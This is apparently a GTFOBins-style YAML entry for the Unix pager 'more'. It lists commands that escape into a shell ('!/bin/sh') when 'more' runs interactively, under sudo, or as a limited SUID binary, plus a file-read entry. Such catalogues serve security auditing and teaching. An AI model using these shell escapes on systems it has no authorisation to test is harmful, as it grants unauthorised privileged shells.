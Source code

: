 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        TERM= ./more /etc/profile
        !/bin/sh
  file-read: 
    - code: |
        more file_to_read
---
```

